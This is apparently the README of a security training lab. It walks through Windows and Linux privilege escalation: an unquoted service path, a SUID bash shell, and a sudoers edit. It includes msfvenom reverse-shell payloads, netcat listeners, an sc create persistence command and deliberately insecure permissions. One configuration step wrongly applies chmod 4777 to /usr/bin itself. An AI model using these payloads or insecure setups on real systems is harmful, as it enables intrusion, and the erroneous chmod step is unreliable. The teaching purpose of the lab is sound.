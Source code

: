 # Security First Principles: Least Privilege Lab

| Box Name | Type |
| -------- | ------- |
| Linux Exercises | Kali 2023.3 |
| Windows Exercises | Windows 10 Pro build 19044 |
* Windows Defender is disabled via Group Policy on the Windows Exercises box.

## Lab Exercise 1: Windows Horizontal/Vertical PrivEsc
### Configuration
#### Horizontal PrivEsc via Unquoted Service Path
1. Add two additional users the box, with different passwords. One should be a standard user and the other should be an administrator. Use the administrator-level user for the following steps.
2. Create a "Step 4" folder on the desktop of the selected user.
3. Create a path in Program Files three folders deep with a dummy service executable (`C:\Program Files\[Level 1 Name]\[Level 2 Name]\[Dummy Service Executable]`).
     * Ensure the `Level 2 Name` contains a space (ex. `Service Run`)
     * This dummy executable won't be used, so pretty much any executable that isn't a shell works. I used `iexplore.exe`.
5. Edit the `Level 1 Name` folder properties to grant all users write permission (Properties > Security > Users > Edit > Write).
6. Create a new registry key in `HKLM\SYSTEM\CurrentControlSet\Services`. This key will be the service name.
7. Add the following values to the key:

    | Name | Type | Data |
    | -------- | ------- | ------- |
    | (Default) | REG_SZ | (value not set) |
    | DisplayName | REG_SZ | [Service Name] |
    | ErrorControl | REG_DWORD | 0x00000001 (1) |
    | ImagePath | REG_EXPAND_SZ | [Path to Dummy Service Executable **without quotes**] |
    | ObjectName | REG_SZ | .\\[User Name] |
    | Start | REG_DWORD | 0x00000002 (2) |
    | Type | REG_DWORD | 0x00000010 (16) |

8. Restart the box.
9. Open the Services MMC snap-in. The `[Service Name]` should appear in the list. Ensure the startup type is set to Automatic so it executes when the box starts.

#### Vertical PrivEsc
1. Temporarily elevate the service created in Horizontal PrivEsc to system (Properties > Log on > Log on as: > Local System account).
2. Get a SYSTEM shell by following the steps in [Horizontal PrivEsc Exploitation](#Horizontal-PrivEsc-via-Unquoted-Service-Path).
3. Create the "Step 6" folder in C:\Windows\System32.
4. Restore the service created in Horizontal PrivEsc to running as the selected user (Properties > Log on > Log on as: > This account: > [select account via Browse and provide password]).

### Exploitation
#### Horizontal PrivEsc via Unquoted Service Path
1. Log on to the second user created in Configuration step 1.
2. Create a simple TCP reverse shell with `msfvenom` on the Linux Exercises box:
      * In the example above, this would be `Service.exe`.
      * There is a preconfigured binary with the IP address of the Linux Exercises box and name `Service.exe` in the Windows PrivEsc folder in the repo. It connects to port 1337.

```
msfvenom -p windows/shell_reverse_tcp LHOST=<IP address of Linux Exercises box> LPORT=1337 -f exe -o [First word of Level 2 Name].exe
```

2. SCP the generated file from the Linux Exercises box to `C:\Program Files\[Level 1 Name]` on the Windows Exercises box.
3. Start a Netcat listener on the Linux Exercises box with `nc -nvlp 1337`.
4. Restart the Windows Exercises box. A Windows shell should spawn in the Netcat session with the permissions of the first user. Use `whoami` to verify this.

#### Vertical PrivEsc
1. Get an administrator shell by following the steps in [Horizontal PrivEsc Exploitation](#Horizontal-PrivEsc-via-Unquoted-Service-Path).
2. Create another simple TCP reverse shell with `msfvenom` on the Linux Exercises box, but it listens on a different port and can use any file name:
      * There is a preconfigured binary with the IP address of the Linux Exercises box and name `Service2.exe` in the Windows PrivEsc folder in the repo. It connects to port 1338.

```
msfvenom -p windows/shell_reverse_tcp LHOST=<IP address of Linux Exercises box> LPORT=1338 -f exe -o [Filename].exe
```

3. SCP the generated file from the Linux Exercises box to the Windows Exercises box. The location is insiginficant.
4. On the administrator shell, create a SYSTEM-level service that runs the file automatically on startup:

```
sc create [ServiceName] binPath= "[C:\Path\To\New\Shell.exe]" start= auto
```

5. Start a Netcat listener on the Linux Exercises box with `nc -nvlp 1338`.
6. Restart the Windows Exercises box. A Windows shell should spawn in the Netcat session with the permissions of SYSTEM. Use `whoami` to verify this.

## Lab Exercise 2: Linux Horziontal PrivEsc via SUID
### Configuration
1. Add two additional users the box, with different passwords. Only one of these users should be allowed to use `sudo`. Use the sudo-enabled user for the following steps.
2. Create a "Step 4" folder on the desktop of the first user.
3. Build the modified Bash shell in the Linux PrivEsc/Lab 2 folder in the repo with `./configure` and `make`. Name it `shell`.
      * This modification always runs the Bash shell in privileged mode (so that the SUID bit won't be [ignored by default](https://www.gnu.org/software/bash/manual/bash.html)).
      * A pre-built `shell` for the Linux Exercises box is also in the folder.
4. Place the `shell` in the `/usr/bin` folder.
5. Set the owner and group (if applicable) and the SUID bit on the file:
      * If set correctly, permissions should be `-rwSrwxrwx` and the user and group will be the first user.

```
chown [first user] /usr/bin
chgrp [first user] /usr/bin
chmod 4777 /usr/bin
chmod u-x /usr/bin
```

### Exploitation
1. Log on to the second user created in Configuration step 1.
2. Execute the `/usr/bin/shell` file. A Bash shell should spawn with the permissions of the first user. Use `whoami` to verify this.

## Lab Exercise 3: Linux Vertical PrivEsc via visudo
### Configuration
1. Using `sudo` as the first user, create a "Step 5" folder in the home directory of the root user.
2. Use `visudo` to edit the `/etc/sudoers` file. Add a line for your second user to allow them to run `visudo` beneath the root user:
      * A preconfigured `/etc/sudoers` file is `sudoers.old` in the Linux PrivEsc/Lab 3 folder in the repo as well.

```
# User privilege specification
root	ALL=(ALL:ALL) ALL
[second user name]	ALL=/usr/sbin/visudo
```

3. Save the file

### Exploitation
1. Run `visudo` as the second user.
2. Append `,/usr/bin/su` to the privilege specifcation for the second user:
      * A preconfigured `/etc/sudoers` file is `sudoers` in the Linux PrivEsc/Lab 3 folder in the repo as well.

```
# User privilege specification
root	ALL=(ALL:ALL) ALL
[second user name]	ALL=/usr/sbin/visudo,/usr/bin/su
```

3. Save the file
4. Run `sudo su` as the second user. A root shell will spawn.

## Puzzler: Correcting PrivEsc Vulnerabilities
No setup is required.
